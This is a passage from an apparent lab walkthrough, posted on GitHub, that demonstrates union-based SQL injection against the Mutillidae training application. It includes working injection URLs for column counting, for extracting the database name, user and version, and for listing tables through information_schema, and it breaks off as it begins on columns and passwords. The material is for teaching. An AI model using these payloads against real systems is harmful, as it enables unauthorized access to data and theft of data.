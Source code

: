 The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![244885847-0eb340b9-63a6-433e-878b-45f3b396f1a2](https://github.com/subalakshmivenkat/sqlinjection/assets/119393477/1cdaac6d-1c0b-4029-a547-6e29d7445dad)
After adding the order by 6 into the existing url , the following error statement will be obtained: 

![244885847-0eb340b9-63a6-433e-878b-45f3b396f1a2](https://github.com/subalakshmivenkat/sqlinjection/assets/119393477/25816f81-6a78-4b06-8819-bd2daf30fabd)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

![244885848-86073e2f-937b-47a4-9b9d-c0c2863b2a7c](https://github.com/subalakshmivenkat/sqlinjection/assets/119393477/28ad29bf-fe4d-459a-913f-c462a8d929f4)

As it is having 5 columns the query worked fine and it provides the correct result

![244885850-7a660480-5cb6-4d86-acd1-08f7a4d5e2fa](https://github.com/subalakshmivenkat/sqlinjection/assets/119393477/5d062bbd-0e97-4d15-b92c-9dc4a2752b7a)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

![244885874-1c7ac260-3410-4f75-8091-2cda6b7f20c0](https://github.com/subalakshmivenkat/sqlinjection/assets/119393477/538a284f-b69e-4a5a-b75d-9441fb36e0fd)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information. 

![244885894-12ebac90-8efb-4558-a442-541029220fa3](https://github.com/subalakshmivenkat/sqlinjection/assets/119393477/fc8e56c1-c491-4781-a8a5-600077ad8b01)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

Screenshot 2023-06-10 225314 The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![244885896-78ba6fc7-7ab6-4c39-8a7f-c8e4240775b8](https://github.com/subalakshmivenkat/sqlinjection/assets/119393477/bc0d37cf-b94b-43c7-b18a-b241a4be951c)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”
